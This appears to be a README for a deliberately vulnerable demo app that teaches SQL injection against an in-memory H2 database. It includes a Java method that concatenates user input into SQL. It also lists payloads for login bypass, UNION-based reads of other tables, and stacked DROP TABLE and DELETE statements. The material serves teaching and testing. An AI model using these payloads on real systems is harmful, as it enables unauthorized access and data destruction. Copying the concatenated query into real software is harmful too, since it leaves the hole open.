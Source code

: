 ###SQL injection for non-parameterized query

SETUP:
* database: H2
* type: inmemory
* hibernate ddl:  create-drop
* data: inserted on app start


### Checking possible SQLi in API 

Checking for SQL Injections with a single quote ‘ is quite a trustworthy way to check if this attack is possible or not.

If the single quote does not return any inappropriate results, then we can try to enter double quotes and check the results.

### Login Scenario SQLi Cases

    SELECT * FROM Users WHERE User_Name = ‘" + strUserName + "‘ AND Password = ‘" + strPassword + “’;”

For simple payload username as 'John' and password as 'Smith'
query build would be as 
   
    SELECT * FROM Users WHERE User_Name = 'John' AND Password = 'Smith’;
    
For username if payload is  =>   John '-- , query would be  
    
    SELECT * FROM Users WHERE User_Name = 'John'-- AND Password = 'Smith’;

For username payload =>  John ' or 'x' = 'x     and for password as  =>   Smith ' or 'x'='x 

    SELECT * FROM Users WHERE User_Name = 'John' or 'x'='x' AND Password = 'Smith’ or ‘x’=’x’;

For username payload =>  John ' or '1'='1     and for password as  =>   Smith ' or '1'='1
    
    SELECT * FROM Users WHERE User_Name = 'John' or '1'='1' AND Password = 'Smith’ or ‘1’=’1’;

Deleting data from other table, payload could be 

    SELECT * FROM Users WHERE User_Name = ‘John’; DROP table users_details;’ –‘ AND Password = 'Smith';


### For Employee Api SQLi Scenario

API Path: localhost:8080/api/employee/byPost

Query Method and String:

    public List<Map<String, Object>> listEmployeeByPost(String post) {
        String query = "SELECT id, name, post, salary FROM employee WHERE post = '" + post + "'" ;
        log.info("QUERY : " + query);
        return jdbcTemplate.queryForList(query, new HashMap<>());
    }

Simple JSON Payload:

    {
        "post" : "Manager"
    }

Simple UNION payload 

    {
        "post" : "Manager' union select '1', '2', '3', '4"
    }

Retrieving all data from other tables

    {
        "post" : "Manager' UNION ALL SELECT id as id, name as name, price as post, created_by as salary FROM product WHERE '1' = '1"
    }

Deleting Data from table

    {
        "post" : "Manager'; DELETE FROM product WHERE '1' = '1"
    }


